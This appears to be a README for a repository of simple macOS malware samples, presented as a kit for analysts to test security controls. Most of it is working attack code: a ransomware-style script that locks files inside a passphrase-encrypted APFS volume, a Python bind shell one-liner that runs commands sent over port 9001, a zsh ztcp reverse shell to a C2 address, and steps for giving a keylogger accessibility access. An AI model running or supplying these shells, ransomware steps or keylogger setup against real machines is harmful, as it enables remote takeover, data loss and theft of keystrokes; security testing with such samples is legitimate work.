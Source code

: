 # Overview
This repository is a collection of simple malware and payloads to help cyber security analysts and technicians test their mac os security controls and monitor system

# Simple Ransomeware Script (apfs_ransomware.sh)
This script simulates a ransomware scenario by creating a new APFS volume move all the files into the volume and encrypt that volume. The script was adjusted to reduce the complexity and the potential damage.
Reference source: https://www.huntress.com/blog/creating-macos-ransomware
`p="1234"`
+ Set a simple passphrase to encrypt the Volume XX
`disk_name=$(diskutil info / | grep “APFS Container:” | tr -s “ “ | cut -d” “ -f4)`
+ Get the disk name of the current machine
`diskutil apfs addVolume “${disk_name}” APFS XX -pasphrase “${p}”`
+ Create a new disk volume in the selected APFS container and set it as an encrypted volume
`mv -f ./Sample_Dir/* /Volumes/XX`
+ Move some testing sample documents to the encrypted Volume
`echo $p`
+ Display the passphrase

# Simple Python Bind Shell (python_bind_shell.py)
This script simulates a bind shell scenario where an attacker set a backdoor on the target system using Python 3.
Reference source: Online - Reverse Shell Generator (https://www.revshells.com/) (select Bind tab and select
Python3 Bind option)
```
import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind((&quot;0.0.0.0&quot;,9001));s1.listen(1);c,a=s1.accept();
```
+ Set up an open port on the system so the attacker can access the system remotely
```
while True:
d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())
```
+ The code listens for the command sent by the attacker and reply with the command’s result

# Simple off the land Reverse Shell (zmodload_reverse_shell.sh)
`zmodload zsh/net/tcp`
+ Load built in module tcp
`ztcp 127.0.0.1 4444`
+ Establish connection to the C2 server, replace the ip address and port number
`zsh >&$REPLY 2>&$REPLY 0>&$REPLY'`
+ Maintain the interactive shell with the C2 server

# Simple Keylogger on macOS
Source code repository on Github: https://github.com/caseyscarborough/keylogger/tree/master
## Note
When you got the error: `ERROR: Unable to create event tap.`
Go into System Preferences and go to **Security & Privacy**, click the **Privacy tab**, choose **Accessibility** in the left pane, and ensure that **Terminal is checked**.
